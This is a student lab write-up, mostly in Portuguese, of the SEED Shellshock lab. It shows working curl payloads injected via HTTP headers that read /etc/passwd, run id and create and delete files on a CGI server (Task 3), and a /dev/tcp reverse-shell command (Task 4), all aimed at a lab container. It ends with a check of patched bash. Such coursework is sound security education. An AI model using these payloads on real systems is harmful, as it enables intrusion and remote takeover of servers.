# Shellshock Attack Lab

[https://seedsecuritylabs.org/Labs_20.04/Software/Shellshock/](https://seedsecuritylabs.org/Labs_20.04/Software/Shellshock/)

**Introduction**:

Around 2014, bash received an update which fixed the "shellshock" vulnerability. This allowed you to define environment variables that would be executed by bash (on new shell creation, it tried to convert environment variables into eventual functions). This was a huge security issue because it allowed you to execute arbitrary code on the server. This lab will teach you how to exploit this vulnerability, in particular, how to use it to gain remote code execution on a server via a CGI script running on a web server.

## Work

Part of the **SSI Course Unit** at [FEUP](https://sigarra.up.pt/feup/en/WEB_PAGE.INICIAL).

**Team**:

- João Pedro Rodrigues da Silva [[up201906478]](mailto:up201906478@edu.fe.up.pt);
- António Bernardo Linhares Oliveira [[up202204184]](mailto:up202204184@edu.fe.up.pt);
- Fernando Adriano Ramalho Rocha [[up202200589]](mailto:up202200589@edu.fe.up.pt).

The group has followed the instructions on the lab page, and has documented the process as well as the answers to the questions indicated in the lab tasks.

**Language: Portuguese 🇵🇹**.

## Task 1: Experimenting with Bash Function

Nesta tarefa inicial o objetivo é descobrir como funciona a vulnerabilidade shellshock. Para tal é necessário perceber como o bash interpreta variáveis de ambiente e como estas podem ser utilizadas para executar código arbitrário.

Esta vulnerabilidade já não existe na versão mais recente de Bash. Por isso, foi disponibilizado o programa do bash vulnerável com o nome de `bash_shellshock` dentro da pasta `Labsetup/image_www`.

Começamos por correr uma instância da imagem fornecida no Labsetup com o Docker.

```bash
cd Labsetup
docker-compose build # Build the container image
docker-compose up # Start the container
```



Está agora emulada a máquina da vítima, identificável pelo seu endereço IPv4 virtual `10.9.0.80`.

Vamos correr uma shell nesse container. Necessitamos de conhecer o ID do container, fazemos isso com `docker ps --format "{{.ID}} {{.Names}}"`.

Em concreto:

```bash
# Correr o nosso bash dentro do container
docker exec -it 00709dc3e055 bash # -it: --interactive + --tty
```

Verificamos a versão do nosso bash a correr em shell no container:



De seguida, lançamos o bash vulnerável e verificamos a versão do mesmo.



Efetuamos o seguinte comando que vai declarar uma variável. Esta contém código maligno após o caractere `;` que vai lançar o programa `date`, resultando no output da data atual.

Este código é executado quando criamos um novo shell bash filho do atual, pois o Bash vai tentar converter a variável foo que detém um string para uma função (uma feature do Bash vulnerável), mas também executa o que vem depois da definição da função.

O código maligno injetado após a definição da função apenas é executado na conversão automática, não quando chamamos a função `foo` definida.



Se tentarmos fazer o mesmo com o bash normal, o código maligno não é executado, pois esta feature (conversão automática de variável para função) já não existe na versão mais recente do bash.

*Código executado numa VM Ubuntu 20.04.5 LTS*:



O Bash atual apenas trata definições de funções normais, como por exemplo: `foo3 () { echo bar3; } ; export -f foo3`.

## Task 2: Passing Data to Bash via Environment Variable

Nesta tarefa o objetivo é perceber como podemos aproveitar uma vulnerabilidade shellshock num programa CGI baseado em bash. Para este efeito é necessário passar a nossa informação como atacantes para este programa, utilizando então variáveis de ambiente para o fazer.

Uma maneira de fazer isto é imprimir o conteúdo de todas as variáveis de ambiente no processo atual e perceber que informação do user entra nas variáveis de ambiente de um programa CGI.

A última linha do programa *getenv.cgi* executa esta mesma tarefa.

```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo
echo "****** Environment Variables ******"
strings /proc/$$/environ
```

### Task 2.A: Using Browser

A lista de variáveis de ambiente é imprimida pelo servidor:



Quando acedemos ao ficheiro *getenv.cgi* pelo browser a variável de ambiente HTTP_USER_AGENT é definida pelo próprio browser sendo este o próprio User Agent.

Observando através da extensão HTTP header Live Main o pedido HTTP efetuado conseguimos concluir que outras variáveis de ambiente como HTTP_ACCEPT, HTTP_ACCEPT_LANGUAGE, HTTP_ACCEPT_ENCODING, HTTP_ACCEPT_CONNECTION, HTTP_UPGRADE_INSECURE_REQUESTS tem o seu valor definido pelos campos correspondentes no pedido HTTP.



### Task 2.A: Using Curl

Tendo como objetivo de definir a informação relativa a variáveis do ambiente para valores arbitrários, o comando **curl** permite aos users manipular campos num pedido HTTP utilizando certas opções.

Nesta tarefa teremos que descobrir quais campos são definidos pelas opções variadas do curl e descrever quais delas podem ser usadas para injetar informção para as variáveis de ambiente de um programa CGI.

Podemos descobrir isto observando a resposta de cada comando curl usando certas opções.

Se a opção ```-v``` estiver especificada então a operação executada é mais legível e é imprimido o cabeçalho do pedido HTTP:



Se a opção ```-A``` estiver especificada então o conteúdo do user está especificado na variável de ambiente do servidor, neste caso define User-Agent para "my data":



Se a opção ```-e``` estiver especificada então o conteúdo do user está especificado na variável de ambiente do servidor, neste cado define Referer para "my data":



Se a opção ```-H``` estiver especificada então o conteúdo do user está especificado na variável de ambiente do servidor, neste caso é incluído no pedido HTTP um novo campo referente a "AAAAAA: BBBBBB" sendo que esta informção é depois incluida nas variáveis de ambiente imprimidas na forma de HTTP_AAAAAA=BBBBBB:



Como observamos, existe uma série de variáveis de ambiente, que são valores que um servidor web envia neste caso para o program CGI, que espelham informação sobre o servidor e não são modificadas e outras que dão informação sobre os utilizadores e podem ser modificadas como vimos. Ao usar o comando curl com as opções ```-A``` ```-e``` ```-H``` o atacante pode então injetar o seu próprio conteúdo para as variáveis de ambiente de um programa CGI alvo.

## Task 3: Launching the Shellshock Attack

O objectivo desta tarefa consiste em obter informação ou fazer alterações na estrutura de ficheiros do container utilizando o curl e explorando a vulnerabilidade shellshock. Com o curl é efetuado um pedido HTTP a um script que utiliza uma versão do bash vulnerável e onde o código a executar é injetado num header HTTP. Foram utilizados três headers diferentes para realizar esta tarefa, associados às seguintes flags do curl:

- -A - User-Agent
- -e - Referrer
- -H - Header explícito (o utilizado foi o Accept)

No header basta escrever a expressão '() { :;};' para declarar uma função vazia e permitir a execução de código no container. Nos casos onde existe output é necessário também adicionar 'echo Content-type: text/plain;' para este ser visível na resposta ao pedido.

### Task 3.A: Get the server to send back the content of the /etc/passwd file

```bash
curl -A "() { :;}; echo Content-Type: text/plain; echo; echo; /bin/cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

### Task 3.B: Get the server to tell you its process’ user ID. You can use the /bin/id command to print out the ID information

```bash
curl -H 'Accept: () { :;}; echo Content-type: text/plain; echo; /bin/id;' http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```



### Task 3.C: Get the server to create a file inside the /tmp folder. You need to get into the container to see whether the file is created or not, or use another Shellshock attack to list the /tmp folder

```bash
curl -e '() { :;}; echo Content-type: text/plain; echo; /bin/touch /tmp/virus.txt;' http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```

### Task 3.D: Get the server to delete the file that you just created inside the /tmp folder

```bash
curl -A '() { :;}; echo Content-type: text/plain; echo; /bin/rm /tmp/virus.txt;' http://www.seedlab-shellshock.com/cgi-bin/vul.cgi
```



## Questions

### Question 1: Will you be able to steal the content of the shadow file /etc/shadow from the server? Why or why not? The information obtained in Task 3.B should give you a clue

Não pois o ficheiro /etc/shadow, que não é visível a terceiros, é owned pelo root e pertence ao grupo shadow, enquanto que o servidor executa no utilizador www-data que apenas pertence ao grupo do mesmo nome, não possuindo portanto permissões para o visualizar.



### Question 2: HTTP GET requests typically attach data in the URL, after the ? mark. This could be another approach that we can use to launch the attack. In the following example, we attach some data in the URL, and we found that the data are used to set the following environment variable

Não pois os dados a injetar possuem espaços, algo que torna um URL inválido. Desta forma, este não é um método válido para efetuar o ataque shellshock.



## Task 4: Getting a Reverse Shell via Shellshock Attack

Na tarefa anterior, nós os atacantes corria um comando no servidor e imprimir o resultado. No entanto, no mundo real os atacantes preferem correr um comando shell para que possam correr outros comandos enquanto que o programa shell está a correr.
Para este propósito, uma reverse shell é precisa, um processo shell iniciado numa máquina com o seu input e output controlado por outro utilizador num computador remoto.
O princípio de uma reverse shell é redirecionar o input e output  para uma conexão de rede.

Para executar esta tarefa, é necessário criar um servidor TCP que escuta uma conexão num port especificado, neste caso correr o comando ``` nc -l 9090 ``` para iniciar uma conexão entre o atacante e o servidor pelo port 9090.

De acordo com a secção **4 Guidelines: Creating Reverse Shell** ``` /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1 ``` inicia uma bash shell na máquina do servidor, sendo:

• ``` /bin/bash -i ```: opção i significa interativo, shell interativa.

• ``` > /dev/tcp/10.0.2.15/9090 ```: redireciona *stdout* para a conexão TCP para 10.0.2.15 port 9090.

• ``` 0<&1 ```: Indica que o programa shell tem o seu input vindo da mesma conexão TCP.

• ``` 2>&1 ```: Output de erros é redirecionado para o *stdout*.

Comando Final para concluir o ataque:



Reverse shell criada:



## Task 5: Using the Patched Bash

Foi criado um script CGI que utiliza uma versão do bash onde a vulnerabilidade foi mitigada com o nome de patched.cgi que apenas faz echo da string 'I'm Patched!'.



Como observado, nenhum dos comandos injetados nos headers HTTP foi executado e o script executou como esperado, o que mostra que de facto a vulnerabilidade shellshock foi corrigida nesta versão.
